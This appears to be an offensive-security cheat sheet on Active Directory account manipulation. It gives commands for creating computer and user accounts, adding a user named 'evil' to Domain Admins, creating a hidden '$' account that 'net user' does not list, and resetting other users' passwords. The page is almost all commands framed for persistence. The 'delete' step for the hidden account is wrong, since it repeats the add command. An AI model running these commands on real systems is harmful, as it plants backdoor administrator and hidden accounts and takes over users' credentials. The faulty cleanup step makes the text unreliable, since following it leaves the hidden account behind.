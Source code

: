 # Account Manipulation

## Creating Computer Accounts

- Dsadd

    This command creates a new computer account in a target Active Directory.

    ```powershell
    dsadd computer "CN=MACHINE-0,CN=Computers,DC=example,DC=local"
    ```

    To delete it, use `dsrm` command:

    ```powershell
    dsrm "CN=MACHINE-0,CN=Computers,DC=example,DC=local
    ```

- New-ADComputer

    ```powershell
    New-ADComputer -Name "MACHINE-0"
    ```

    To delete it, use `Remove-ADComputer`:

    ```powershell
    Remove-ADComputer -Identity "CN=MACHINE-0,CN=Computers,DC=example,DC=local"
    ```

## Creating User Accounts

- Net

    This command creates a new local user account and adds it to `Domain Admins` group.

    ```powershell
    net user "evil" "Password@123" /add /domain
    net group "Domain Admins" "evil" /add /domain
    ```

- Dsadd

    This command creates a new user account in a target Active Directory.

    ```powershell
    dsadd user "CN=Evil,CN=Users,DC=example,DC=local" -pwd "Password@123" -ln "Hell" -fn "Evil" -email "evil@example.local" -display "Evil"
    ```

    To delete it, use `dsrm` command:

    ```powershell
    dsrm "CN=Evil,CN=Users,DC=example,DC=local"
    ```

- New-ADUser

    ```powershell
    New-ADUser Evil -SurName Hell -GivenName Evil -DisplayName Evil -EmailAddress evil@example.local -AccountPassword (ConvertTo-SecureString -AsPlainText "Password@123" -Force) -Enabled $true
    ```

    To delete it, use `Remove-ADUser`:

    ```powershell
    Remove-ADUser -Identity "CN=Evil,CN=Users,DC=example,DC=local"
    ```

## Creating Hidden User Accounts

By creating a new user named `$`, it is not displayed in the result of the `net user` command.

```powershell
net user $ Password123 /add
```

To delete it, run the following command:

```powershell
net user $ Password123 /add
```

## Changing User Passwords

These commands change an existing user's password.

```powershell
net user "John" "password123"

pspasswd "John" "password123"
```

## Changing Computer Names

The command changes the current computer name. The system need to restart to apply the change.

```powershell
Rename-Computer -NewName MYSERVER -Force
```
